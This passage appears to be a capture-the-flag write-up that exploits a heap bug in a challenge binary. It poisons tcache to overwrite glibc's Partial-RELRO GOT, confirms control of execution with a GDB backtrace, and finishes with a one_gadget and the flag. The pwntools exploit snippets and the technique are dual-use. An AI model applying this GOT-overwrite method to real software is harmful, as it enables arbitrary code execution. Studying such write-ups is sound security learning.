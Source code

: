 Our libc is also Partial RELRO:

```shell
$ checksec --file=libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    DSO             No RPATH   No RUNPATH   9864 Symbols      Yes   79              170             libc.so.6
```

So why not try the idea he mentioned? Let's write a chunk full of `0xdeadbeef` in the libc's GOT, and do some other action after, so that the libc has some stuff to do and may call a function from its GOT:
```python
add_req(0x130, b"T"*0xc8 + p64(0x111) + p64(libc.symbols["_GLOBAL_OFFSET_TABLE_"] ^ (heap >> 12))) #prev
add_req(0x100, b"pop a from tcache")

add_req(0x100, p64(0xdeadbeef)*0x20)
add_req(0x50, b"trololo")
```
Running this gives us a segfault, and when attaching GDB, we can see the following backtrace:
```
gef➤  bt
#0  0x00000000deadbeef in ?? ()
#1  0x00007fcedc6bf59c in __libc_message (action=action@entry=do_abort, 
    fmt=fmt@entry=0x7fcedc811b8c "%s\n") at ../sysdeps/posix/libc_fatal.c:93
#2  0x00007fcedc6d6d7c in malloc_printerr (
    str=str@entry=0x7fcedc814be0 "malloc(): invalid size (unsorted)")
    at ./malloc/malloc.c:5664
#3  0x00007fcedc6da15c in _int_malloc (av=av@entry=0x7fcedc84fc80 <main_arena>, 
    bytes=bytes@entry=0x50) at ./malloc/malloc.c:4002
#4  0x00007fcedc6db2e2 in __GI___libc_malloc (bytes=0x50) at ./malloc/malloc.c:3321
#5  0x0000563eeeda5783 in add_request ()
#6  0x0000563eeeda5256 in main ()
```
One of our `0xdeadbeef` is actually called when the libc tries to abort because our heap is broken! Now we just have to try our libc's one gadgets, and it turns out one of them worked. You can find the full exploit [here](./attack.py).

Flag: `flag{l06_5m4ll_bu6_b163xpl017}`